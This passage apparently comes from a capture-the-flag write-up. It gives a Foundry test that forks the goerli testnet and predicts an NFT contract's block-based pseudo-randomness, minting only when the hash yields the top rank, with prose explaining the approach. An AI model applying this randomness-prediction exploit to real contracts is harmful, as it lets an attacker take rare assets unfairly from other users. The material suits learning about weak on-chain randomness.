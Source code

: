 ```js

            // ---- hacking time ----
            uint256 jadu = uint256(
                keccak256(
                    abi.encode(mintedId + 1, address(hacker), block.number)
                )
            );
            if (jadu % 100 > 90) {
                //console.log(mintedId);
                //console.log(address(hacker));
                //console.log(block.number);
                //console.log(jadu);

                nft.mint{value: 1 ether}();
                console.log("Minted ID: ", nft.id());
                console.log("Minted Rank: ", nft.tokens(nft.id()));
                break;
            }

            currentBlockNum++;
        }

        // get rank from `mapping(tokenId => rank)`
        // (, bytes memory ret) = nft.call(
        //     abi.encodeWithSignature("tokens(uint256)", mintedId)
        // );
        // uint mintedRank = uint(bytes32(ret));
        mintedId = nft.id();
        uint mintedRank = nft.tokens(mintedId);

        assertEq(mintedRank, 3, "not Superior(rank != 3)");
    }
}
```

- We have our imports as usual. I'm importing the `INFT` interface as well. Then in the Test contract we are setting up the interface instance & hacker account. First we are forking `goerli` so that we can work locally with out api. Then we are loading the contract from the address like this `nft = INFT(0xFD3CbdbD9D1bBe0452eFB1d1BFFa94C8468A66fC);`. Our goal is to mint the NFT within 100 blocks. So in the `test()` we have a `for` loop to check so. Now as I mentioned to mint type `3` we need the ans to be `>` 90. We can literally check each iteration to see the result of the hash. 
- We are taking a variable of type uint256 `jadu` & just copy pasting the check expect I'm using `abi.encode`, why? That's because `abi.encodePacked` does't add any padding & if 2 dynamic data types are together then it can lead to `hash collision` to high probability the original contract haven't used this. Moving on we are checking if the last 2 digits of the `jadu` var is `>` or not. Something `%` 100 == `last 2 digits`

![](assets/p-nft1.png)
